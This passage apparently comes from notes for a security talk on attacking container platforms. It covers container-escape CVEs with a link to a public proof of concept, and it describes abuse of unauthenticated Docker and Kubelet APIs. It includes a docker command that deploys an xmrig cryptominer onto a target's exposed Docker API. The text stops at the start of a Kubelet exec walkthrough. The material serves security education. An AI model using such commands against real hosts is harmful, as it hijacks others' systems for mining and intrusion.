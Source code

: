 When we speak about container technologies, two main components may be subject to attacks:

 * Containers technologies (docker, rkt, Solaris containers, Microsoft Containers ...)
 * Container orchestration tools (kubernetes, apache meos, docker swarm, docker data center)

Another important part of the environment is the storage container (clusterHQ, BlockBridge,EMC...) but it can be attacked through the orchestration engine so we will not describe them with too much details in this talk.

Also it is important to highlight the fact that most cloud service providers provide their own implemantation of orchestration tools, which can be targeted as well.


### exploit vulnerabilities to break out of containers

Worst scenario for containers is the possibility for a malicious or compromised container to escape and attack the host system. Of course it happened with a vulnerability on runC (CVE-2019-5736: runc container breakout).

Vulnerability was discovered by Adam Iwaniuk and Borys Popławski and affect most of the containers softwares and a proof-of-concept is available: https://github.com/Frichetten/CVE-2019-5736-PoC

As this vulnerability is probably the most critical, others are not to be ignored:
 
 * CVE-2018-11757 (Docker): a Docker action inheriting the Docker tag openwhisk/dockerskeleton:1.3.0 (or earlier) may allow an attacker to replace the user function inside the container if the user code is vulnerable to code exploitation,
 * CVE-2018-8115 (Docker for Windows): A remote code execution vulnerability exists when the Windows Host Compute Service Shim (hcsshim) library fails to properly validate input while importing a container image,
 * Vulnerabilities on "rkt enter" commands (CVE-2019-10144, CVE-2019-10145 and CVE-2019-10146): discovered by Yuval Avrahami, those vulnerabilities could be used to escape to the host system by putting traps on modified binaries in a compromised container (https://www.twistlock.com/labs-blog/breaking-out-of-coresos-rkt-3-new-cves/)

### abusing APIs

APIs are great to automate admin tasks ... or compromising at a scale. If not properly secured, API access can be used to start, delete or configure containers or the host sytem. 

Here is some attack example abusing APIs:

 - Docker: create container via API 

Docker API is exposed on port 2375/TCP or 2376/TCP (SSL). If default configurtion is used (who do that ? :D) a simple POST request give us the possibility to deploy and start a Docker Image. The image will be downloaded from Docker Hub automatically...

We can use a crafted HTTP request or just the docker client as shown bellow:

`docker -H target:2376 run --restart unless-stopped --read-only -m 50M -c 512 bitnn/alpine-xmrig -o POOOOL  -u WALLET -p X -k`



 - Kubernetes: Unauthenticated endpoint on Kubelet (port 10250) to perform `exec` command

The exploitation take 2 steps, first a POST request to the exec endpoint:
